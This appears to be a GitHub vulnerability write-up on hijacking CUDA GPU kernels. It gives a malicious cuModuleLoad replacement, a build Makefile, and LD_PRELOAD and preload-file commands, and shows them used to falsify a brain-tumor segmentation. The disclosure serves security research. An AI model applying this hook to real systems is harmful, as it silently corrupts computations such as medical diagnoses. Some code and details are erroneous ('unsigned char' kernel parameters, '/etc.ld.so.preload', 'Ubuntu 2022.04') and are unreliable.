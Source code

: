 # <center><font size=5> A Kernel Hijacking Vulnerability on NVIDIA GPUs</font></center>

We found a kernel hijacking vulnerability on NVIDIA GPU (GTX1050). Attackers can manipulate the invocation mechanism of the CUDA driver APIs (CUDA 12.2), and replace the kernel loading API by a malicious one, which can be exploited to launch a GPU kernel hijacking attack covertly. This vulnerability can cause code execution and information disclosure. The remainder of this paper is organized as follows. Section I introduces the basics of GPU programming model. Section II details the GPU kernel hijacking method. Section III presents an interesting attack case.







## <font size=5> III. Attack Method</font>

In this section, we first analyze the invocation mechanism of driver API and then detail how to manipulate a malicious API to hijack GPU kernel.

As shown in Fig. 2 (a), a CUDA program contains two parts, device code and host code. The device code is compiled into an executable kernel file by NVCC. Meanwhile, the host code is compiled by G++ and executed in the host memory space. When a host program needs to invoke a group of APIs to manage the GPU kernel, their DLLs will be linked to the target program by the linker and executed in host memory. Specifically, when a host requires to call the **cuModuleLoad** function to load a kernel, the operating system (like Linux) first uses the dynamic linker **ld.so** to load its DLL (dynamic link library) from the CUDA APIs library into host memory. Next, this DLL will be linked to the target program and executed to load the kernel into a computing module. Finally, we conclude that the API invocation mechanism has the characteristics of dynamic loading and sharing, which can protect intellectual property and save memory usage.

![GPU2](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/hijack.png)

Unfortunately, the API invocation mechanism exists security risks. The dynamic linker can be manipulated by an adversary to implement kernel hijacking.
In detail, the linker only inspects the interface of a API and does not have other verification strategies. Moreover, it also provides a preloading mechanism. A specific API can be linked to the target program with a higher priority. Therefore, an adversary can craft a disguised kernel loading API to replace the normal one and thus hijack the GPU kernel. To achieve this goal, the following two conditions must be met.

**(1) The same application binary interface.** The API's DLL is a binary file, and the dynamic linker only checks its interface, such as function name, number and type of arguments. Therefore, an attacker can construct a malicious API that maintains the same interface as the original one. In the malicious API, an attacker can implement arbitrary logic.

**(2) The higher linking priority.** To replace the normal API invocation with a malicious one, it is necessary to raise the linking priority of the malicious DLL. Modern operating systems, like Linux, provide a DLL preloading mechanism, which can escalate the linking priority of a DLL. Hence, the victim GPU application could wrongly prioritize calling the malicious API.

Finally, an attacker can hijack a GPU kernel through the above two steps. We conclude the principle of our kernel hijacking method in Fig. 2 (b). The attacker first elaborately designs a malicious API/DLL and modifies the load sequence of the dynamic linker. Second, when a victim GPU application is required to invoke a specific API, the linker will preload the malicious DLL to replace the normal one. Third, once the malicious DLL is executed, it will hijack the GPU kernel and inject malicious logic into it. Finally, the Trojan-infected kernel is loaded into GPU and launched to implement illegal purposes.




## <font size=5> III. Attack Case </font>

Image processing is one of the most important GPU applications. GPU can calculate a large number of pixels simultaneously, which greatly accelerates image processing. In this subsection, we implement a medical image segmentation application on GPU and show how to tamper with the segmentation result.

**Experimental Setup**

| Operating System |              GPU Model               | CUDA Version |
| :--------------: | :----------------------------------: | :----------: |
|  Ubuntu 2022.04  | NVIDIA GTX1050 (Pascal Arch., SM_61) |     12.2     |

**Victim**

As shown in Fig. 3 (a), it is a brain magnetic resonance imaging. Compared to the normal area, the gray value of the tumor region is significantly higher. Hence, the medical personnel can utilize a threshold segmentation algorithm to highlight the affected brain area. If the pixel value is greater than the threshold, it will be reassigned to a new gray value, like 255 (white). Otherwise, it will be assigned to 0 (black). After all the pixels are processed, the medical personnel can acquire the detected tumor region. 

```c++
__global__ void kernel(unsigned char I_image, //input image
                       unsigned char O_image) //output image
{
	int i=blockDim.x*blockIdx.x+threadIdx.x;
    int threshold = 230;
    /* threshold segmentation */
	if (I_image[i]>threshold)
		O_image[i]=255;
	else
		O_image[i]=0;
}
```
Finally, the victim compiles and executes this kernel. In Fig. 3 (b), we show the processed image, where the white region is the detected tumor. We can observe that the tumor area is large, which indicates the patient's condition is very serious. The entire program is located in **/ImageProcess/segment_gpu**. 

```
./image_segment.o
```

![GPU3](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/reference.png)

**Attacker**

An attacker designs a malicious kernel loading API and compiles it to a DLL, as introduced in Section II. An attacker implements a malicious kernel loading API which has the same interface with the normal one. In the malicious API, attacker illegally modifies the GPU kernel file. This entire program is located in **/ImageProcess/hijack_tool/hijack.cu**. 

```c++
CUresult CUDAAPI cuModuleLoad(CUmodule *module, const char *fname)
{
	//1.inject malicous instruction into cubin
	char* image = injector(fname);
	//2.load malicious cubin image into cuModule
	CUresult code = cuModuleLoadData(module, image);
	if(code!=CUDA_SUCCESS)
	{
		return CUDA_ERROR_INVALID_VALUE;
	}
	return CUDA_SUCCESS;
}
```

After that, attacker compiles the malicious kernel loading API to a dynamic link library (DLL). The compile command is located in **/ImageProcess/hijack_tool/Makefile**. 

```makefile
image_hijack.so: hijack.o
	nvcc -arch=sm_61 hijack.o -lcuda -lcudart_static -shared -o image_hijack.so
	
hijack.o: hijack.cu
	nvcc -Xptxas -astoolspatch --keep-device-functions -arch=sm_61 -Xcompiler -fPIC -c hijack.cu -o hijack.o

clean:
	rm -f *.so *.o
```

Next, the attacker modifies the pre-loading environment variable "LD_PRELOAD" or the pre-loading  configuration file "/etc.ld.so.preload" to escalate the linking priority of the malicious DLL.

```
LD_PRELOAD = ./image_hijack.so
```

```
sudo vim /etc.ld.so.preload
/path/image_hijack.so
```

Finally, once the victim launch the CUDA program, the malicious API will hijack the GPU kernel and implant a Trojan. As shown in Fig. 4, it will make the detected tumor area decrease sharply. We can observe that the tumor area is very small, which may cause a misjudgment of the patient's condition. This can result in a serious medical accident. 

![GPU4](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/malicious.png)



# <font size=5> Conclusion </font>

In the end, we provide an animation to show the above attack process.

![GPU5](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/animation.gif)

